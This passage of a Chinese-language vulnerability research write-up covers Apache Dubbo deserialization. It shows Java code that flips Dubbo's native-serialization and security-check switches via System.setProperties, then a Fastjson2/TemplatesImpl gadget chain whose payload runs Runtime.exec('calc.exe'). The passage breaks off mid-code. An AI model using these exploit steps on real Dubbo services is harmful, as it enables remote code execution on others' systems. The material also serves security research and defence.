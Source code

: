 ## 利用方式2

 利用object.set+METHOD\_NAME进行利用。

 dubbo在泛化调用的过程中是存在一个接口允许原生java反序列化的。但是这个接口默认不开启，同时会进行序列化的黑名单类检查。然而这个接口调用开关是可以被控制的，我们如果可以把它打开，那么这个漏洞就变成了一个原生的java反序列化漏洞，利用特定的gadget就可以RCE。在[https://xz.aliyun.com/t/12333#toc-5](https://xz.aliyun.com/t/12333#toc-5 "https://xz.aliyun.com/t/12333#toc-5")中，师傅提到了可以使用`org.apache.dubbo.common.utils.ConfigUtils`类，它存在一个setProperties方法，可以对`PROPERTIES`对象进行赋值，从而控制开关。但是我发现`org.apache.dubbo.common.utils.ConfigUtils`的setProperties方法只在2.7.x版本的dubbo存在，3.0.x和3.1.x都是没有的。那有没有什么通用的方法呢？事实上，Dubbo的configuration也是可以通过java.lang.System类的props对象进行传入的。那么就可以直接调用System.setProperties方法，传入修改后的dubbo配置。代码如下：

```java
private static Map getProperties() throws IOException {
    Properties properties = new Properties();
    properties.setProperty("dubbo.security.serialize.generic.native-java-enable","true");
    properties.setProperty("serialization.security.check","false");
    HashMap map = new HashMap();
    map.put("class", "java.lang.System");
    map.put("properties", properties);
    return map;
}
```

 在这之后就可以使用类似如下的代码进行原生反序列化利用

```java
out.writeObject(getEvilObject());
HashMap attachments = new HashMap();
attachments.put("generic", "nativejava");
out.writeObject(attachments);
```

# 进一步拓展

 上述两种方法，在公开的分析文章里，都存在着一些问题。方法1中最终的Sink点是JNDI注入，需要出网。方法2中最终需要依赖特定的Gadget，在之前的Dubbo的反序列化分析文章中，大家在Gadget选择时都会使用一些三方依赖进行漏洞利用，例如Rome、CommonsBeanutils1等。那Dubbo是否存在原生的Java反序列化链呢？

 在Dubbo 3.1.x的版本中，新增了对Fastjson2的支持。恰好前段时间刚好看到有师傅发了[fastjson库在原生Java反序列化中的利用](https://paper.seebug.org/2055/#fastjson1 "fastjson库在原生Java反序列化中的利用")。结论是fastjons小于1.2.48版本是可以使用，fastjson2全版本是通杀的。利用的原理是fastjson的JSONArray或者JSONObject在调用其toString方法时，会触发其包裹对象的get+METHOD\_NAME方法。因此很容易想到可以包裹一个TemplatesImpl对象，通过调用其getOutputProperties方法，从而执行任意代码。

 既然已经有了方法，那实现一下试试吧。关键代码如下：

```java
public static Map getProperties() throws IOException {
    Properties properties = new Properties();
    properties.setProperty("dubbo.security.serialize.generic.native-java-enable","true");
    properties.setProperty("serialization.security.check","false");
    HashMap map = new HashMap();
    map.put("class", "java.lang.System");
    map.put("properties", properties);
    return map;
}

public static Object getObject() throws Exception{
    ClassPool pool = ClassPool.getDefault();
    CtClass clazz = pool.makeClass("a");
    CtClass superClass = pool.get(AbstractTranslet.class.getName());
    clazz.setSuperclass(superClass);
    CtConstructor constructor = new CtConstructor(new CtClass[]{},
            clazz);
    constructor.setBody("Runtime.getRuntime().exec(\"calc.exe\");");
    clazz.addConstructor(constructor);
    byte[][] bytes = new byte[][]{clazz.toBytecode()};
    TemplatesImpl templates = TemplatesImpl.class.newInstance();
```
